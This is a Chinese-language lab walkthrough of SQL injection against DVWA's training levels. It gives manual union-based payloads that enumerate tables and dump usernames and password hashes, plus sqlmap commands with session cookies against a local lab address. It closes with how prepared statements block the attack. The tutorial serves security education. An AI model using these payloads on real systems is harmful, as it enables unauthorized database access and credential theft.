

## sql注入原理


Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台 Sql 服务器上解析执行进行的攻击，它目前黑客对数据库进行攻击的最常用手段之一。


当访问动态网页时, Web 服务器会向数据库发起 Sql 查询请求，如果权限验证通过就会执行 Sql 语句。


这种网站内部直接发送的Sql请求一般不会有危险，**但实际情况是很多时候需要结合用户的输入数据动态构造 Sql 语句，如果用户输入的数据被构造成恶意 Sql 代码，Web 应用又未对动态构造的 Sql 语句使用的参数进行审查，则会带来意想不到的危险。**


Sql 注入带来的威胁主要有如下几点：

- 猜解后台数据库，这是利用最多的方式，盗取网站的敏感信息。
- 绕过认证，列如绕过验证登录网站后台。
- 注入可以借助数据库的存储过程进行提权等操作

## Low等级


先随便输入一个用户ID，查看返回的情况：


当输入的用户ID过大时，数据库中没有这个ID，界面不会有任何返回信息。


输入ID为1时，界面返回ID为1的用户信息：


此时执行的sql语句为：


```sql
SELECT first_name, last__name FROM users WHERE userid = '1'_

```


**输入恶意的ID就可以构造不同的sql语句进行执行，从而查询出我们想得到的一切信息。**


注入过程：

1. 判断是否存在注入，注入类型是数字型还是字符型因为此时执行的sql语句相当于：这个语句显然错误。因为此时执行的sql语句相当于：`and '1'='1'`_显然成立，所以就会返回userid为1的用户信息。界面将所有的用户信息都显示了出来，因为此时执行的sql语句相当于：_`or '1'='1'`显然成立，所以就会返回所有的用户信息。以上实验过程说明存在字符型注入。
	- 输入ID为`1'`出现以下提示：

	


	```sql
	SELECT first_name, last__name FROM users WHERE userid = '1'_
	
	```

	- 输入ID为`1' and '1' = '1`时出现以下提示：

	


	```sql
	SELECT first_name, last__name FROM users WHERE userid = '1' and '1' = '1'_
	
	```

	- 输入ID为`1' or '1' = '1`时出现以下提示：

	


	```sql
	SELECT first_name, last__name FROM users WHERE userid = '1' or '1' = '1'_
	
	```

2. 猜解数据表中的字段数说明数据表中的字段数位2，正常情况下请使用二分法进行测试。
	- 输入ID为`1' order by 1 #`, 正常显示：

	

	- 输入ID为`1' order by 2 #`, 正常显示：

	

	- 输入ID为`1' order by 3 #`, 不正常显示：

	

3. 使用联合查询获取其它有用信息，例如获取数据表名称可获取数据库名和数据库用户名：可获取数据库版本和当前操作系统：可获取数据表名：可看到当前数据库中有两个表：`guestbook`和`users`

	> union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同，而我们之前已经知道了主查询列数为 2，接下来就好办了。

	- 输入以下语句进行查询：

	```sql
	1' union select database(),user()#
	
	```


	

	- 输入以下语句进行查询

	```sql
	 1' union select version(),@@version_compile_os#
	
	```


	


	> information_schema 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table__name 和 tableschema，分别记录 DBMS 中的存储的表名和表名所在的数据库。_

	- 输入以下语句进行查询：

	```sql
	1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#
	
	```


	

4. 获取表中的字段名输入以下语句进行查询：说明users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last__login,failedlogin。_

	```sql
	1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
	
	```


	

5. 获取users表中的所有数据输入以下语句进行查询：得到了所有用户的用户名和密码，密码使用MD5加密后的字符串，使用在线MD5解密网站解密即可。

	```sql
	1' union select user,password from users#
	
	```


	


## Medium等级


Medium等级不再是用户进行输入，而是改为了选择ID。


和low等级的注入过程一样，先判断下是字符型注入还是数字注入。


和LOW等级不同的是这次需要抓包修改：


使用`1 or 1=1` 注入，显示如下：


使用 `1' or '1' = '1` 注入，显示如下：


说明Medium等级的sql注入位数字型的。之后的注入方法和Low等级相同，不再演示。


**查看Medium等级的源码：**


可以看到，Medium级别的代码利用mysql_real__escapestring函数对特殊符号_`\x00,\n,\r,\,’,”,\x1a`进行转义来防止注入，但是此注入类型位数字型的，这个过滤方法也没啥用。


如果在联合查询时需要用到单引号的地方，如:


```sql
1 union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#

```


此处dvwa需要用单引号括起来，此时我们可将dvwa转换成16进制的编码进行注入。


## High等级


High等级将用户输入和界面显示分开在了两个页面上，这种方式的注入和Low等级的注入完全相同。


查看High等级代码：


代码并未对用户输入的字符进行转义或者过滤，只是限制了只是用limit限制了只能输出一行，用#号就可以将其注释掉。


## Impossible等级


查看代码：


使用 anti-token 机制防 CSRF 攻击，检查 id 是不是数字，使用 prepare 预编译再绑定变量a 等方法严格过滤用户输入，有效抵制了sql注入。


## sqlmap注入


除了使用手工注入，还可以使用自动化工具sqlmap进行注入，相对于手工来说更快，更方便。


### 使用sqlmap进行low等级的注入


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" --dbs

```


可看到sqlmap将所有可利用的sql注入类型全部展示了出来，并且将所有数据库也注入了出来。


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa --tables

```





```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa -T users --column

```


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa -T users -C user,password --dump

```


### 使用sqlmap进行Medium等级的注入


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli"  --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" --dbs

```


唯一不同的是需要使用--data执行post请求参数


### 使用sqlmap进行High等级的注入


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli"  --data "id=1&Submit=Submit" --cookie "security=high; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" --second-url "http://192.168.1.2/dvwa/vulnerabilities/sqli/session-input.php" --dbs

```


此等级需要使用`--second-url`指定输入id的页面URL


## 参考文章：

- [https://www.freebuf.com/articles/web/120747.html](https://www.freebuf.com/articles/web/120747.html)
- [https://www.cnblogs.com/jojo-feed/p/10173241.html](https://www.cnblogs.com/jojo-feed/p/10173241.html)
- [https://www.jianshu.com/p/078df7a35671](https://www.jianshu.com/p/078df7a35671)
